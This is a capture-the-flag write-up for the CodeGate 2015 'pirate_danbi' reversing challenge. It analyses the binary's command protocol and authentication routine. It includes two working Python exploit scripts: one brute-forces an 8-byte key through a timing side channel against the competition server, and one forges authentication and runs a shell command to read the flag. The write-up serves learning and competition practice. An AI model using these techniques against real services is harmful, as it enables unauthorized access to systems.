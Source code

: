 ```yaml
---
title: '[CodeGate CTF 2015 - Quals] pirate_danbi'
author: tinduong, k9, trichimtrich
layout: post
category: ctf - clgt crew
excerpt: Reversing a binary that manipulate bz2 file.
thumbnail: /assets/2015/03/codegate-danbi-thumbnails.jpg
tags:
  - ctf
  - codegate
  - reversing
  - side channel
  - timing
---
```


**Category:** Reversing

**Points:** 1000

**Description:**

> Binary: http://binary.grayhash.com/c46a02c63c233dd9c62cececff9f52b5/pirate_danbi 
> MD5SUM of priate_danbi : ebdcfa91ae9a270ccc15230019126c6d 
>
> OS: Ubuntu 14.04 (Kernel: 3.13.0-44)
>  /lib/x86_64-linux-gnu/libc-2.19.so
>  /lib/x86_64-linux-gnu/libbz2.so.1.0.4
>  /lib/x86_64-linux-gnu/ld-2.19.so
>  /lib/x86_64-linux-gnu/ld-2.19.so
>
> Server1 IP : 54.65.162.169
> Port : 8888
>
> Server2 IP : 54.92.37.119
> Port : 8888


## Write-up

Let's start by running the file command :

>root@tinduong:~# file pirate_danbi
>pirate_danbi: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=f63963a28bb50da4a9bcf5cd383ffdee48fd5b05, stripped

Load the binary in IDA Pro and analyze the code. The binary is quite simple. It first read 8 bytes secret key from file and store in a buffer then waits for commands.

![](/assets/2015/03/codegate-danbi-1.png)

Each command should have following format:

{% highlight c %}
===============================
|func_code|size of data| data |
===============================
|  1 byte |   2 bytes  | vary |
===============================
{% endhighlight %}

Depend on what func_code is, the corresponding function will be called. There are 9 functions as you can see at 0x401A68

![](/assets/2015/03/codegate-danbi-2.png)

In summary, what we need to notice about this binary are:

* We can write our data into a bz2 file.
* We can extract the bz2 if dw_writeable = 1.
* If our processed data from authentication function is equal to "YO_DANBI_CREW_IN_THE_HOUSE.", dw_run_shell can be set to 1.
* We can use sh to execute file which is extracted from the bz2 if dw_run_shell = 1.
* What we input in authentication function (function code 1) will affect to value of dw_writeable and dw_run_shell.

Authentication function gets an input and check whether its length is divisible by 8 (0x0400EAA).

![](/assets/2015/03/codegate-danbi-3.png)

Then it does some calculation (0x0400EDB) with secret key and our data, save the result to st_main. 

![](/assets/2015/03/codegate-danbi-4.png)

We need to set dw_wriable to 1 to be able to extract data from bz2 file. Authentication function takes last 8 bytes of our data xor with secret key. The last byte of the result is the number of byte to be checked. Those XOR-ed bytes must be equal in order to change the value of dw_writable to 1.

If dw_writable is 1 and we use extract command (0x04011B6), the binary takes more time to extract bz2 file. Hence, we can easily use timming attack to brute-force the secret key byte by byte.

{% highlight python %}
#author: k9
#/usr/bin/env python
import socket, time

'''
Server setup:
- export REMOTE_HOST=anything
- echo -n key8bytes > /home/pirate_danbi/key
- socat TCP-LISTEN:2323,reuseaddr,fork EXEC:"stdbuf -i0 -o0 ./pirate_danbi"
'''

ip,port = '127.0.0.1',2323
#ip,port = '54.65.162.169',8888

#python -c 'print "A"*0x2800*10000' | bzip2 -9 > a.bz2
bz2 = '425a68393141592653597946ad93015f8e0400a0000008200030804d4642a025a90a80973141592653597946ad93015f8e0400a0000008200030804d4642a025a90a80973141592653599d259396005133c4208010200000040008200030cd340a506f28a21378a8a213c5dc914e142422ac9fbf40'.decode('hex')


def xor(last,i):
    return chr(ord(last)^i)

def brute(c,recovered):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    s.setblocking(0)
    i = len(recovered)+1
    key = '12345678'+'\xff'*(8-i)+c+''.join([xor(ci,i) for ci in recovered])
    buf = '\x01\x00\x10'+key+'\x02\x00'+chr(len(bz2))+bz2
    buf += '\x03\x00\x00'*1000  #decompress bz2 stream
    buf += '\x01\x00\x01\x00'   #exit()
    s.send(buf)
    t = time.time()
    s.setblocking(1)
    s.recv(1024),
    cost = time.time()-t
    print str(cost)[:5],":",c.encode('hex'),"=>",recovered.encode('hex')
    return cost

recovered = ''
for i in range(8):
    for c in range(0x0a,0x100): #key may be unprintable
        c = chr(c)
        val = brute(c,recovered)
        if val>10:  #depends on network lag + server processing speed
            recovered = xor(c,i+1)+recovered
            break
print "key:",repr(recovered)
#key of real Danbi is '\x88\xfe\xdd\xa0\x20\x49\x88\x20'
print " hex:",recovered.encode('hex')
    #time.sleep(1) #sleep if needed

{% endhighlight %}

This approach is one of two ways to solve this challenge.

![](/assets/2015/03/codegate-danbi-5.png)

We have key and output (YO_DANBI_CREW_IN_THE_HOUSE.), we need a correct input to send to authentication function. Just reverse the calculation and we get it, then send data to server in the following step:

- Send command 1 with our input.
- Send command 4 to set dw_run_shell to 1
- Send command 2 with bz2 compressed data.
- Send command 3 to decompress bz2.
- Send command 5 to execute shell.
- Get flag and submit.

{% highlight python %}
#author: tinduong
import socket
import bz2


IP = '54.92.37.119'
PORT = 8888

def GenInput(key, output):
    for i in xrange(32 - len(output) + 1):
        output += '\x01'
    data = ['\x00' for i in xrange(32)]    
    #Last block is xored with key
    for i in xrange(8):
        data[8*3 + i] = chr(ord(output[24 + i]) ^ ord(key[i]))
    
    #Other blocks
    for i in xrange(2, -1, -1):
        for j in xrange(7, -1, -1):
            x = (ord(output[8 * i + j]) - ord(key[j])) & 0xff
            x = x ^ ord(data[8 * i + j + 8])
            data[8 * i + j] = chr(x)
    return ''.join(data)


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((IP, PORT))
 
key = '\x88\xfe\xdd\xa0\x20\x49\x88\x20'
passwd = 'YO_DANBI_CREW_IN_THE_HOUSE.\x00'
#SEND INPUT
s.send('\x01\x00\x20' + GenInput(key,passwd))
#VERIFY KEY
s.send('\x04\x00\x00')
#SEND BZ
x = bz2.compress('cat /home/pirate_danbi/flag\n')
s.send('\x02\x00' + chr(len(x)) + x)
#DECOMPRESS
s.send('\x03\x00\x00')
#EXEC SHELL
s.send('\x05\x00\x00')
print s.recv(1024)
{% endhighlight %}

Flag is: *barking_danbi_is_waiting_for_you_at_finals*
